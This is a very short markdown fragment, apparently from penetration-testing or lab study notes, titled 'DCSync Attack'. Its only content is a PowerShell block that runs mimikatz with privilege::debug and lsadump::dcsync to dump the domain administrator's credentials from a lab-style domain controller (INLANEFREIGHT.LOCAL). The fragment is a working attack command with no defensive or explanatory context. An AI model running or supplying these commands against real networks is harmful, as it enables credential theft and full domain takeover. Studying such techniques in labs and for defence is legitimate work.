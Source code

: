 #### DCSync Attack
```powershell
.\mimikatz.exe
privilege::debug
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

^21193e
